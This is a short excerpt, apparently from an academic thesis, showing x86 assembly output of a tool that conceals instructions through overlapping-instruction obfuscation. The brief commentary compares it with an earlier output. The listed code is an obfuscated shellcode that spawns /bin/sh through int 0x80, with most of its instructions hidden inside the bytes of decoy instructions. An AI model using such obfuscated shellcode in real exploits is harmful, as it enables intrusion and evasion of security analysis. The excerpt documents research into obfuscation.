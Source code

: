 \documentclass[11pt,twoside]{eitExjobb}
\begin{document}
\subsubsection{Without 32 bit mov substitution}
\begin{Verbatim}[fontsize=\tiny]
BITS 32
section .data

    shellpath: db "/bin/sh",0
    shellpathlen: equ $-shellpath

    ediData: dd 1
    ecxData: dd 1
    eaxData: dd 1
    ebpData: dd 1

section .text
    global _start
_start:
;preface
    lea esi, [shellpath-1]

;Memory adjustment stuff 
    lea edi, [ediData]
    sub edi, 0x1c683ff
    lea ecx, [ecxData]
    sub ecx, 0xbb80c46
    lea eax, [eaxData]
    sub eax, 0x0
    push ebp
    lea ebp, [ebpData]
    sub ebp, 0x84e8d1e

    jmp mep0 + 0x3

;mep
mep0:
    test dword [edi+0x1c683ff], 0x7689c031              ; f7 87 ff 83 c6 01 31 c0 89 76     
    or [ecx+0xbb80c46], cl                              ; 08 89 46 0c b8 0b
    add [eax], al                                       ; 00 00
    add [ebp+0x84e8d1e], cl                             ; 00 8d 1e 8d 4e 08
    lea edx, [esi+0xc]                                  ; 8d 56 0c
    int 0x80                                            ; cd 80
    pop ebp                                             ; 5d
    mov eax, 1                                          ; b8 01 00 00 00
    mov ebx, 0                                          ; bb 00 00 00 00
    int 0x80                                            ; cd 80
\end{Verbatim}

\noindent This output is similar to the previous one, the memory adjustment part is a little different since this output uses other registers for memory access. The \emph{lea} substitution in the preface is the same. The real difference is in the MEP where it is not until the \texttt{lea edx, [esi+0xc]} that the MEP synchronizes with the HEP. Compairing this output to the input program, seven of the nine instructions have been hidden by the tool.

\subsection{\texttt{writetofile}}
\end{document}

